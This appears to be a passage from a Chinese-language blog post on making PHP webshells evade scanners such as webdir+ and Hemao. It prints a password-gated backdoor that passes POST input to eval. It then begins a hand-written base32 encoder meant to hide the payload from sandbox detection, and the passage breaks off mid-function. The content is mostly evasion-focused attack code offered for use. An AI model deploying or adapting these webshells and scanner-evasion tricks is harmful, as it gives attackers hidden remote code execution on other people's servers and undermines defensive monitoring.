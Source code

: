 ```
?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/dAMlD06OYdJUjfSUfXxvV0uINLfUse46yjXbbk9sho5OoMcw3rV5icS9pJ0RN7ATemzibRYATab8MjNCP51aG21g/640?wx_fmt=png)

这个我是真没想到...  
**免杀 webdir+**  
官方说它会拿沙盒跑  

![](https://mmbiz.qpic.cn/mmbiz_png/dAMlD06OYdJUjfSUfXxvV0uINLfUse4613eUZptCQa1hd1IgxfsQtkwqaTD0iavfqAyia02ibEj3DJRQ7tcSgQozQ/640?wx_fmt=png)

我们拿绕过河马的马跑一下，这里的检测速度之所以比较慢就是因为它在跑沙盒，这种方式确实比传统的查杀工具难搞很多，但是它并不完美。  

由于 eval 依然无法动摇，所以我依旧从 "$_POST['a']" 下手, 首先这串字符编码后是过不去 webdir + 的，但是不编码也过不去，我猜测可能是沙盒在模拟运行的时候拼接出了 eval($_POST['a'])，导致被杀，那我使用 md5 做密钥它总跑不出来吧。修改代码如下：

```
<?php
class YHUV{
        public $BSFRM = null;
        public $YVMQFW = null;
        function __construct(){
            if(md5($_GET["pass"])=="df24bfd1325f82ba5fd3d3be2450096e"){
                $this->BSFRM=$_POST['a'];
                @eval("/*rEgV_Cd*/".$this->BSFRM."/*rEgV_Cd*/");
            }
        }}
new YHUV();
?>
```

还是被杀了，我反而很高兴，那这也说明一个问题，你并没有顺利执行过我的马，那说明我 eval() 里的东西一直都是安全的，那么不安全的肯定就是 "$_POST['a']" 了，这个怎么解决呢？  
经过大量测试 我发现了一个事情 base64 不行了  
base64 不行了怎么办？我直接用 base32，php 没有自带的 base32？那就自己写

```
function base32_encode($input) {
    $BASE32_ALPHABET = 'abcdefghijklmnopqrstuvwxyz234567';
    $output = '';
    $v = 0;
    $vbits = 0;

    for ($i = 0, $j = strlen($input); $i < $j; $i++) {
        $v <<= 8;
        $v += ord($input[$i]);
        $vbits += 8;

        while ($vbits >= 5) {
            $vbits -= 5;
            $output .= $BASE32_ALPHABET[$v >> $vbits];
            $v &= ((1 << $vbits) - 1);
        }
    }

    if ($vbits > 0) {
        $v <<= (5 - $vbits);
        $output .= $BASE32_ALPHABET[$v];
    }

    return $output;
}

function base32_decode($input) {
    $output = '';
    $v = 0;
    $vbits = 0;
```
